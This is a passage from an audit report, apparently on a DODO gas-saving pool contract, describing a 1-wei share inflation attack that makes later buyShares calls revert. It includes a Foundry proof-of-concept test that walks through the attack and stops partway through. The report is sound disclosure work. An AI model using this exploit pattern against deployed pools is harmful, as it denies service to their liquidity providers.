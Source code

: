 ```solidity
71:            shares = DecimalMath.mulFloor(totalSupply, mintRatio); // <= FOUND: the manipulated totalSupply of 1wei requires a mintRatio of greater than 1000 for a successful _mint()
            ...
82:    }
// File: dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPVault.sol
294:    function _mint(address user, uint256 value) internal {
295:        require(value > 1000, "MINT_AMOUNT_NOT_ENOUGH"); // <= FOUND: next buyShares with volume less than 1001 x attacker balance will revert here
...
300:    }
```

5. The `_mint()` function fails with a "MINT_AMOUNT_NOT_ENOUGH" error, causing a denial-of-service condition for subsequent buyShares operations.

### POC
Apply the POC to `dodo-gassaving-pool/test/GPSTrader.t.sol` and run with `cd dodo-gassaving-pool && forge test --fork-url "https://rpc.flashbots.net" -vvv --mt test_mint1weiShares_DOSx1000DonationVolume` to check the result.

```solidity
// File: dodo-gassaving-pool/test/GPSTrader.t.sol
    function test_mint1weiShares_DOSx1000DonationVolume() public {
        GSP gspTest = new GSP();
        gspTest.init(
            MAINTAINER,
            address(mockBaseToken),
            address(mockQuoteToken),
            0,
            0,
            1000000,
            500000000000000,
            false
        );

        // Buy 1001 shares
        vm.startPrank(USER);
        mockBaseToken.transfer(address(gspTest), 1001);
        mockQuoteToken.transfer(address(gspTest), 1001 * gspTest._I_() / 1e18);
        gspTest.buyShares(USER);
        assertEq(gspTest.balanceOf(USER), 1001);

        // User sells shares and keep ONLY 1wei
        gspTest.sellShares(1000, USER, 0, 0, "", block.timestamp);
        assertEq(gspTest.balanceOf(USER), 1);

        // User donate a huge amount of base & quote tokens to inflate the share price
        uint256 donationAmount = 1000e18;
        mockBaseToken.transfer(address(gspTest), donationAmount);
        mockQuoteToken.transfer(address(gspTest), donationAmount * gspTest._I_() / 1e18);
        gspTest.sync();
        vm.stopPrank();

        // DOS subsequent operations with roughly 1001 x donation volume
        uint256 dosAmount = donationAmount * 1001;
        mockBaseToken.mint(OTHER, type(uint256).max);
        mockQuoteToken.mint(OTHER, type(uint256).max);

        vm.startPrank(OTHER);
        mockBaseToken.transfer(address(gspTest), dosAmount);
        mockQuoteToken.transfer(address(gspTest), dosAmount * gspTest._I_() / 1e18);

        vm.expectRevert("MINT_AMOUNT_NOT_ENOUGH");
        gspTest.buyShares(OTHER);
```
